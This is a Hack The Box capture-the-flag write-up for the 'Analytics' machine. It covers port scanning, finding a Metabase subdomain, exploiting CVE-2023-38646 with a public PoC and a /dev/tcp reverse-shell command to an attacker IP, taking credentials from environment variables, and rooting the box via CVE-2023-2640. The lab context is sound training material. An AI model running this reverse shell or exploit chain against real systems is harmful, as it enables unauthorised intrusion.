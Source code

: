 +++
author = true
title = "Analytics HTB Writeup"
date = "2024-01-01"
description = "Analytics writeup"
tags = [
    "ctf",
    "Analytics"
]
categories = [
    "themes",
    "hacking"
]
toc = true
image = "images/4ee3e0b492328aaff5facb4c6a3cd03dc9db5cc1.png"
+++


# HTB - Analytics Writeup


**Summary** We have port 22 (ssh) and 80 (webserver) open, we enumerate the webserver and found out it have subdomains data.analytics.htb. We greeted with metabase that have vulnerabilities and we exploit it to gain reverse shell. We enumerate the machine and found user credential in the environment. Finally we found kernel exploit that help escalate our privilege to root.

Let's begin.

## Port Scanning

First we run our machine and we get our target IP address

Target : 10.10.11.233

<figure>
<img
src="images/f1d06feaefcc2cea64bb90604177da98747a34b8.png"
title="wikilink" alt="Pastedimage20240514095314.png" />
</figure>

First thing first is we run our ***nmap*** scan to scan any open port and services.

    nmap -sC -sV 10.10.11.233   

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-06 10:10 +08
    Nmap scan report for analytical.htb (10.10.11.233)
    Host is up (0.18s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
    |_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Analytical
    |_http-server-header: nginx/1.18.0 (Ubuntu)

    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

    Nmap done: 1 IP address (1 host up) scanned in 34.88 seconds

We have 2 open port, **SSH** and **HTTP** webserver. Let's have a look what do we have in the webserver.

We first have to put the domain into our **/etc/host** to be able to access the webserver.

<figure>
<img
src="images/ed6abf9562e580d7ec1bfd51e4df13dd18a29e8a.png"
title="wikilink" alt="Pastedimage20240514095332.png" />
</figure>

<figure>
<img
src="images/436b59f14d8d7a1219a5b217e498762f000bfedb.png"
title="wikilink" alt="Pastedimage20240514095404.png" />
</figure>

## Web Enumeration

We are greeted by a simple landing page. I tried to look around even in the **Page Source** but it seems like **nothing** that could lead us further.

<figure>
<img
src="images/15b197cca94b0e20ea3a4bfce81c28950e40b1c9.png"
title="wikilink" alt="Pastedimage20240514095411.png" />
</figure>

There's a contact form and I try to input random string but it just bring us to the top of the page again. We also found couple of email that we could probably use later (Spoiler we didn't have to use it).

<figure>
<img
src="images/21ab03a50296a956479a7e181bfb6725ba38384a.png"
title="wikilink" alt="Pastedimage20240514095418.png" />
</figure>

### Directory Enumeration

We try to brute force directory using ***dirsearch*** to look for any secret directory but seems like there's none.

<figure>
<img
src="images/431162882cf7d66b6797756526ffb3c3b0bab2ec.png"
title="wikilink" alt="Pastedimage20240514095424.png" />
</figure>

Since there's no useful result on ***dirsearch***, I proceed to try enumerate the subdomains and we **found a subdomain** that we can try to get into. But before that we have to include it inside ***/etc/hosts*** as well.

<figure>
<img
src="images/35e1db14466956f178e0961e0baabc120bf96e62.png"
title="wikilink" alt="Pastedimage20240514095430.png" />
</figure>

<figure>
<img
src="images/496261e8fc20676c2462f5f179bc4939de40906a.png"
title="wikilink" alt="Pastedimage20240514095436.png" />
</figure>

## Metabase

It lead us to **metabase** login form. We don't have any credential yet. So I try sql injection and other techniques but lead me to nothing. So I google if metabase have any exploit.

<figure>
<img
src="images/40da9834b90d452601fffde583ef3f846c8071ae.png"
title="wikilink" alt="Pastedimage20240514095445.png" />
</figure>

We try to google for any exploit regarding Metabase and as we can see there's couple of **Metabase exploit** that we can try to use.

<figure>
<img
src="images/c00ae59677667348d48a91c2f198dbf4c5b9d394.png"
title="wikilink" alt="Pastedimage20240514095452.png" />
</figure>

### CVE-2023-38646

I'm going to try [https://github.com/m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc?ref=tamagorengs.com) exploit first. You can learn more detail on how the exploit work here [https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/?ref=tamagorengs.com). We first need to get the setup-token at **/api/session/properties** and run it with command below

<figure>
<img
src="images/f43f2b8167ccfdd5f1002ce29909c6aad1271891.png"
title="wikilink" alt="Pastedimage20240514095459.png" />
</figure>

    python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]"

we end up with this

    python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "sh -i >& /dev/tcp/10.10.14.133/2210 0>&1"

## Initial Foothold

And now we have a reverse shell. We are currently user metabase. I try **sudo -l** but seems like we need **tty**. I check python and it's also not available. I tried other tty techniques but nothing works. We also get nothing from from the metabase home directory.

<figure>
<img
src="images/a136beb7edb947e1d4269a38ff45acc9a7153f8a.png"
title="wikilink" alt="Pastedimage20240514095514.png" />
</figure>

<figure>
<img
src="images/cc2bdb05cdb4cd782ec5699f3c12c8f2a7b984ee.png"
title="wikilink" alt="Pastedimage20240514095519.png" />
</figure>

## Privilege Escalation - Part 1

I try enumerate more on the host. I try **env** to check the environment of the host and notice a **Pass** and a **User**. Let's try SSH into the machine use below **credential**.

<figure>
<img
src="images/b838f9ff990d9e459a7855ddc248747134738d62.png"
title="wikilink" alt="Pastedimage20240514095525.png" />
</figure>

We succesfully get into **metalytics** user through SSH and now we get the **user flag**. Now we have to find a way to escalate our privileges.

<figure>
<img
src="images/6d7095c8f1e92c10683eb21a229d364fcb97efa7.png"
title="wikilink" alt="Pastedimage20240514095531.png" />
</figure>

## Privilege Escalation - Part 2

We run **sudo -l** to check if we have any sudo privileges but it seems that we can't run anything as sudo.

<figure>
<img
src="images/f965b4b8c111e5fec8f04f501d99f360ef9326b5.png"
title="wikilink" alt="Pastedimage20240514095538.png" />
</figure>

Let's run ***linpeas*** to automate the enumeration

<figure>
<img
src="images/93d1f7be6aecb4abf4655739ff25698cee526802.png"
title="wikilink" alt="Pastedimage20240514095538.png" />
</figure>

### CVE-2023-2640

After looking around for **kernel exploit vulnerability**. I found an PoC regarding below version of ubuntu. You can read more here [https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?ref=tamagorengs.com).

<figure>
<img
src="images/60628a19cca0788ce6c9bd8a6eba4f056a23caf1.png"
title="wikilink" alt="Pastedimage20240514095602.png" />
</figure>

All we have to do is get the exploit, and run it. And voila we are now root. Let's finish this by getting the root flag.

<figure>
<img
src="images/8d0b9d95980334a842a233ec9a042101956d9a35.png"
title="wikilink" alt="Pastedimage20240514095606.png" />
</figure>

And that's it, we managed to finish this box.

<figure>
<img
src="images/e5f424abcc8966986e02c3b35a9cf3e1e4119308.png"
title="wikilink" alt="Pastedimage20240514095612.png" />
</figure>
